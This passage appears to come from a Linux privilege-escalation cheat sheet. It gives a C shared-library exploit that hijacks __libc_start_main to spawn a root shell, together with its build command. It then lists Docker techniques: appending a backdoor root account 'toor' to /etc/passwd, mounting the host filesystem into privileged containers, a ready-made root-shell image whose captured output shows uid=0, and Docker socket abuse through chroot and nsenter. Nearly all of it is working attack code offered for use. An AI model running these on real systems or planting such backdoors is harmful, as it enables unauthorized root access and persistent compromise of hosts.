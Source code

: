 Then create an evil library in `/var/tmp` with `gcc -fPIC -shared -static-libgcc -Wl,--version-script=version,-Bstatic exploit.c -o libc.so.6`

    #include<stdlib.h>
    #define SHELL "/bin/sh"
    
    int __libc_start_main(int (*main) (int, char **, char **), int argc, char ** ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end))
    {
     char *file = SHELL;
     char *argv[] = {SHELL,0};
     setresuid(geteuid(),geteuid(), geteuid());
     execve(file,argv,0);
    }

## Groups

### Docker

Mount the filesystem in a bash container, allowing you to edit the `/etc/passwd` as root, then add a backdoor account `toor:password`.

    $> docker run -it --rm -v $PWD:/mnt bash
    $> echo 'toor:$1$.ZcF5ts0$i4k6rQYzeegUkacRCvfxC0:0:0:root:/root:/bin/sh' >> /mnt/etc/passwd

Almost similar but you will also see all processes running on the host and be connected to the same NICs.

    docker run --rm -it --pid=host --net=host --privileged -v /:/host ubuntu bash

Or use the following docker image from [chrisfosterelli](https://hub.docker.com/r/chrisfosterelli/rootplease/) to spawn a root shell

    $ docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
    latest: Pulling from chrisfosterelli/rootplease
    2de59b831a23: Pull complete 
    354c3661655e: Pull complete 
    91930878a2d7: Pull complete 
    a3ed95caeb02: Pull complete 
    489b110c54dc: Pull complete 
    Digest: sha256:07f8453356eb965731dd400e056504084f25705921df25e78b68ce3908ce52c0
    Status: Downloaded newer image for chrisfosterelli/rootplease:latest
    
    You should now have a root shell on the host OS
    Press Ctrl-D to exit the docker instance / shell
    
    sh-5.0# id
    uid=0(root) gid=0(root) groups=0(root)

More docker privilege escalation using the Docker Socket.

    sudo docker -H unix:///google/host/var/run/docker.sock run -v /:/host -it ubuntu chroot /host /bin/bash
    sudo docker -H unix:///google/host/var/run/docker.sock run -it --privileged --pid=host debian nsenter -t 1 -m -u -n -i sh
